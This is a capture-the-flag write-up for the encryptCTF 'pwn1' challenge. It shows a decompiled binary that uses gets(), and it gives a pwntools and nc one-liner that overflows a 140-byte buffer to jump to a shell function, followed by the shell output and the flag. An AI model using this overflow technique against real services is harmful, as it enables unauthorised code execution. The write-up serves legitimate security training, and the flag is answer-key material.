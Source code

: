 # pwn1
Pwn

## Challenge 
Let's do some real stack buffer overflow

nc 104.154.106.182 2345

author: codacker

## Solution

Decompile in Ghidra

	undefined4 main(void){
	  char local_90 [140];
	  setvbuf(stdout,(char *)0x0,2,0);
	  printf("Tell me your name: ");
	  gets(local_90);
	  printf("Hello, %s\n",local_90);
	  return 0;
	}

	void shell(void){
	  system("/bin/bash");
	  return;
	}

There is a suspicious function called shell()

Simply return to address.

- Fill buffer with 140 bytes
- Then override the return address

Flag

	# (python -c 'from pwn import *; print cyclic(140) + p32(0x080484ad)'; cat) 
	| nc 104.154.106.182 2345
	
	Tell me your name: Hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaab??
	
	ls
		flag.txt
		pwn1
	cat flag.txt
		encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}

## Flag

	encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}

